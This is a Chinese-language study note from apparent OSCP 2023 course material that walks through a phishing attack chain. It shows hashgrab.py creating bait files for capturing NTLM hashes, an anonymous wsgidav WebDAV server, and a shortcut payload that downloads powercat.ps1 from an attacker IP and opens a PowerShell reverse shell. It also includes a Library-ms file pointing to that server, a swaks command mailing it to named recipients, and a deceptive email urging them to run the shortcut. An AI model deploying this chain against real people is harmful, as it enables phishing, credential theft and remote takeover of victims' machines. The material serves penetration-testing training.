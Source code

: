 >[!重點] 
>本章內容來自於OSCP 2023教材 
# hashgrab.py
>[!warning]
>抓取人員點擊的小工具

[吉哈伯連結](https://raw.githubusercontent.com/dharanivarma/Pentesting-Tools/main/hashgrab.py)
```title:hashgrab.py
python /opt/hashgrab/hashgrab.py 192.168.45.207 test
```
``` title:output
┌──(kali㉿kali)-[~/Desktop/PG_PRATICE/nara]
└─$ sudo python /opt/hashgrab/hashgrab.py 192.168.45.207 test
[*] Generating hash grabbing files..
[*] Written @test.scf
[*] Written @test.url
[*] Written test.library-ms
[*] Written desktop.ini
[*] Written lnk_778.ico
[+] Done, upload files to smb share and capture hashes with smbserver.py/responder
```
# wsgidav
>[!warning ] 小節重點
>wsgidav是用來傳輸shortcut過去的，裡面要放一個shortcut
## 安裝
```
pip3 install wsgidav
```
- wsgidav 
``` shell
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
```
- shortcuts 
>直接用windows的shortcut，裡面可以放下列指令
``` shell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
- config.Library-ms
>這個東西要想辦法寄給受害方，受害方點擊就可以連˙進去wsgidav
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
- swaks 
>用於寄送信件
```
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
- body 
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```
